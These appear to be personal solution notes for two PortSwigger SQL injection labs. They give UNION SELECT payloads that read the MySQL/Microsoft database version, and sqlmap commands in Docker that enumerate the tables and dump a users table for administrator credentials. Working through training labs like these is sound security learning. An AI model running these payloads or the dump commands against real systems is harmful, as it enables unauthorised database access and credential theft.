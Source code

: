 ## SQL injection attack, querying the database type and version on MySQL and Microsoft
Reference: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft

```ad-hint
title: Quick Solution
This lab is similar to the ones before. The only difference is that it is mandatory to use Burp because seems impossible to inject the '#' character from the browser. The final payload is the following:
~~~
'+UNION+SELECT+@@version,+NULL#
~~~
```

```ad-done
title: Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the ``category`` parameter: 
~~~
'+UNION+SELECT+'abc','def'#
~~~
3. Use the following payload to display the database version: 
~~~
'+UNION+SELECT+@@version,+NULL#
~~~
```

## SQL injection attack, listing the database contents on non-Oracle databases
Reference: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle

```ad-hint
title: Quick Solution
In this case a full attack must be completed. For this reason I used a tool to automate it: ``sqlmap``. To retrieve the credentials of the ``administrator`` I used the the following commands (I used the Dockerized version of ``sqlmap``):

### Get Databases
~~~
docker run -it --rm secsi/sqlmap -u "<target_url>" --dbs
~~~
### List tables in database
~~~
docker run -it --rm secsi/sqlmap -u "<target_url>" -D public --tables
~~~
### Dump content of a DB table
~~~
docker run -it --rm secsi/sqlmap -u "<target_url>" -D public -T <users_table_name> --dump
~~~
```
